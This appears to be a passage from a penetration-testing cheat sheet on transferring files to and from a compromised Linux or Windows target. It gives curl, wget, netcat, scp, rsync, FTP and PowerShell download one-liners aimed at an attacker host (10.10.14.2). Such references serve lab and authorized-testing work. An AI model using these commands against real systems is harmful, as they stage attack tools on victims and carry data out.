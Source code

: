 ***

### III. 🧱 Linux → Target (Ingress)

#### 🔹 Curl

```bash
curl -O http://10.10.14.2/file.sh
curl -o /tmp/script.sh http://10.10.14.2/script.sh
```

#### 🔹 Wget

```bash
wget http://10.10.14.2/file
wget --no-check-certificate https://10.10.14.2/tool
```

#### 🔹 Netcat (Simple & Fast)

**Receiver (attacker):**

```bash
nc -lvnp 9000 > file.bin
```

**Sender (target):**

```bash
nc 10.10.14.2 9000 < /bin/bash
```

#### 🔹 SCP / RSYNC

```bash
scp file.txt user@10.10.14.2:/tmp/
rsync -avz file.txt user@10.10.14.2:/tmp/
```

#### 🔹 FTP (if open)

```bash
ftp 10.10.14.2
put file.txt
get file.txt
```

***

### IV. 🧠 Windows Ingress (Native)

#### 🔹 PowerShell

```powershell
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.2/file.exe','C:\Temp\file.exe')"
```
